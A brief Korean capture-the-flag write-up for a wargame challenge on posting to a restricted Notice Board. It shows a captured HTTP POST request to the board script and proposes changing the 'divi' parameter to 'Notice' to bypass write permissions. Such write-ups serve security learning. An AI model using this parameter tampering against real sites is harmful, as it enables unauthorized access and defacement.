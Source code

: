 # 03, Write articles in Notice Board!

Notice Board에 글을 쓰라고 한다! 와우!

일단 일반 사용자는 Notice Board에 글을 게시한 권한이 없는 것 같다. 그러면 어떻게 해야될까.

자유 게시판에 게시물을 작성할때를 보면 `board_procc.asp?licen=write&divi=Free` URL로 들어가게 된다. 

```
POST /board/board_procc.asp?licen=del&idx=5209&divi=Free HTTP/1.1
Host: suninatas.com
Connection: keep-alive
Content-Length: 516
Cache-Control: max-age=0
Origin: http://suninatas.com
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryujjKVkbL7AFeI4PM
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.67 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://suninatas.com/board/view.asp?idx=5209&num=584&page=1&divi=Free
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: ASPSESSIONIDQARCCTSR=GOPFDKIDPGCIAAOPIGPMIIOG; auth%5Fkey=%3F%3F%3F%3F%3F
```

여기서 `divi` 필드는 게시판 타입을 의미한다고 추측할 수 있다. 그럼 여기서 `divi` 필드를 `Notice`로 바꾸면...?

